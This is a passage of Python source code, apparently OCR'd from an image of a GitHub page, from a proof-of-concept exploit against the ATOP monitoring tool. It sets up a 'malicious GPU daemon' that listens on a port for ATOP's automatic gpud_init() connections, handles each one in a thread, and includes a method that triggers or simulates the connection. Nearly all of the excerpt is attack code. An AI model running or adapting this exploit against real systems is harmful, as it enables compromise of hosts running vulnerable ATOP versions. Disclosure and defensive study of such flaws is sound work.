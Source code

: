             print(f"[+] Malicious GPU daemon listening on port {self.listen_port}")
            print("[+] Waiting for ATOP automatic connections...")
            
            self.running = True
            
            while self.running:
                try:
                    client_socket, client_address = self.server_socket.accept()
                    
                    # Handle each connection in a separate thread
                    client_thread = threading.Thread(
                        target=self.handle_client_connection,
                        args=(client_socket, client_address)
                    )
                    client_thread.daemon = True
                    client_thread.start()
                    
                except socket.error:
                    if self.running:
                        print("[-] Socket error occurred")
                    break
                    
        except Exception as e:
            print(f"[-] Server error: {e}")
        finally:
            if self.server_socket:
                self.server_socket.close()
    
    def trigger_atop_connection(self):
        """
        Trigger ATOP to connect by starting the vulnerable version
        This simulates the automatic connection vulnerability
        """
        print("[+] Attempting to trigger ATOP automatic connection...")
        
        # In a real scenario, this would involve:
        # 1. Starting the vulnerable ATOP version
        # 2. ATOP automatically calls gpud_init() (lines 777-790)
        # 3. Connection is made to our malicious daemon
        
        # For demonstration, we'll simulate the connection
        try:
            test_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            test_socket.connect((self.target_host, self.listen_port))
            